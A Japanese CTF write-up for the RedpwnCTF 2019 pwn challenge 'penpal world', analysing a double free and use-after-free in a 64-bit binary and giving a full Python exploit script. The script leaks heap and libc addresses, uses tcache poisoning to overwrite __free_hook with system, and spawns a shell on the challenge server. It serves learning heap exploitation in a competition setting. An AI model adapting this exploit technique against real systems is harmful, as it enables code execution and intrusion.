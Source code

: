 # [pwn 436pts] penpal world - RedpwnCTF 2019
全部有効な64ビットバイナリです。
```
$ checksec -f penpal_world
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   78 Symbols     Yes      0               2       penpal_world
```
libc-2.27なのでtcacheが有効！嬉しい！

バイナリを読むと、最大2つのletterが作れて、それぞれcreate, edit, show, deleteできます。
letterのサイズは固定で`malloc(0x48)`されます。
deleteでポインタをNULLにしていないのでdouble freeがあります。
また、showでもチェックしていないので、Use After Freeがあります。

サイズがtcacheの範囲なので、libcのアドレスを取るにはdouble freeでchunk overlapして、チャンクサイズを大きくした後freeして、UAFでアドレスをぶっこ抜く、という感じでしょう。
libcが取れたら、tcacheなので`__free_hook`とかを書き換えれば終わりです。

選択画面で選択できる回数に制限がありますが、ぎりぎりの回数でシェルが取れました。

```python
from ptrlib import *

cnt = 0

def create(index):
    global cnt
    cnt += 1
    sock.sendlineafter("Read a postcard\n", "1")
    sock.sendlineafter("#?\n", str(index))
    return

def edit(index, data):
    global cnt
    cnt += 1
    sock.sendlineafter("Read a postcard\n", "2")
    sock.sendlineafter("#?\n", str(index))
    sock.sendafter("Write.\n", data)
    return

def read(index):
    global cnt
    cnt += 1
    sock.sendlineafter("Read a postcard\n", "4")
    sock.sendlineafter("#?\n", str(index))
    return sock.recvline()

def discard(index):
    global cnt
    cnt += 1
    sock.sendlineafter("Read a postcard\n", "3")
    sock.sendlineafter("#?\n", str(index))
    return

#sock = Process("./penpal_world")
sock = Socket("chall2.2019.redpwn.net", 4010)
libc = ELF("./libc-2.27.so")
libc_main_arena = 0x3ebc40
delta = 0x60

# leak heap address
create(0)
create(1)
payload = b"A" * 0x38
payload += p64(0x50)
edit(0, payload)
edit(1, payload)
discard(0)
discard(0)
addr_heap = u64(read(0))
logger.info("heap = " + hex(addr_heap))

# fake chunk
edit(0, p64(addr_heap + 0x40 + 0x500))
create(0)
create(0)
edit(0, p64(0) + p64(0x51))
create(0)
discard(0)
discard(0)

# fake chunk 2
edit(0, p64(addr_heap + 0x40 + 0x500 + 0x50))
create(0)
create(0)
edit(0, p64(0) + p64(0x51))
create(0)
discard(0)
discard(0)

# chunk overlap
edit(0, p64(addr_heap + 0x40))
create(0)
create(0)
edit(0, p64(0) + p64(0x501))
discard(1)
libc_base = u64(read(1)) - libc_main_arena - delta
logger.info("libc = " + hex(libc_base))

#create(0) # mottainai
discard(0)
discard(0)

# tcache poisoning
edit(0, p64(libc_base + libc.symbol("__free_hook") - 8))
create(0)
create(0)
edit(0, b"/bin/sh\x00" + p64(libc_base + libc.symbol("system")))
discard(0)

sock.interactive()
```

# 感想
このチャレンジをやる前なら絶対に解けなかったので成長を実感します...！